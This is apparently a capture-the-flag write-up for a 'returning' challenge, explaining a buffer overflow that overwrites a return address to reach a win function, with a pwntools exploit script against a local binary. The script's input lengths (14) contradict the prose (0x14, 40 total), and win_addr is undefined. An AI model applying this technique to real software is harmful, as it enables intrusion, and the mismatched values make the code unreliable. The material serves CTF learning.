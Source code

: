 #returning:

this is simple bufferoverflow to point the return address to the win function.
ok we have to give two inputs maximum length of 0x14 so the inputs can be anything like "A"*0x14 and "B"*0x14 the total length of two inputs will be taken as the legth of the third input there it has the buffer overflow vulnerability and point the return address to win to get the flag



```py 
from pwn import *

p = process("./pwn")

p.sendline("y") # enable for taking the 1st input (saying yes)
p.send("A"*14) # the 1st input
p.sendline("y") # enable for taking the second inpuut(saying yes)
p.send("B"*14) # 2nd input
# --- These is inside the  for loop which exits after the round count is  2

p.send(p64(win_addr)*8) # 3rd input is where we will have buffer overflow takes (length of 1st input+length of second input) here 40 characters bufferoverflow call win function

p.recvall(timeout=1)
``` 